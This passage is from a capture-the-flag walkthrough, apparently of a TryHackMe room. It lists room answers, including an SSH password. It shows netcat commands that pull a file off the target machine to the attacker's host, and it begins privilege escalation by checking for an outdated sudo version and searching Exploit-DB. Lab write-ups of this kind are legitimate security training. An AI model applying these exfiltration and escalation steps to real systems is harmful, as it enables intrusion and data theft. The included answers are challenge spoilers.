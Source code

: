**Question : Who is the other agent (in full name) ?**  
**Answer : james**

**Question : SSH password**  
**Answer : hackerrules!**

## Image search

First, let's try to answer to the question `What is the incident of the photo called ?`. So I downloaded the photo on my computer by 
using `nc -l -p 1234 > Alien_autospy.jpg` on my machine and then `nc -w 3 10.14.32.60 1234 < Alien_autospy.jpg` on the target machine :  
```
attacker@AttackBox:~/Documents/THM/CTF/Agent_Sudo$ ls -la | grep autospy
-rw-r--r--  1 attacker attacker 42189 23 oct.  09:52 Alien_autospy.jpg
```

Now that I have the file on my computer, I can make a reverse image search to find out what informations we can get from this image :  
![](https://i.imgur.com/ASQNefl.jpg)  

Google automatically searched for french words. So I translated "Affaire de Roswell" to english to find more interesting informations :  
![](https://i.imgur.com/a6XnHKi.jpg)  

So we have a partial information here. We know we are searching for "Roswell incident" :  
![](https://i.imgur.com/nsMKgE9.jpg)  

An Alien autopsy is mentionned and it looks like the image found in james home directory is an image from this Alien Autopsy. Let's search for "Alien Autopsy" on Google :  
![](https://i.imgur.com/f7nQ7jd.jpg)  

We have the answer ! 

**Question : What is the incident of the photo called ?**  
**Answer : Roswell Alien Autopsy**  

## Privilege escalation

Now it's time for privilege escalation, if we look at the sudo version, we will see it is outdated :  
```
james@agent-sudo:~$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

Let's search for exploits for this sudo version on [Exploit-DB](https://www.exploit-db.com/) :  
![](https://i.imgur.com/ZApEjUN.jpg)  
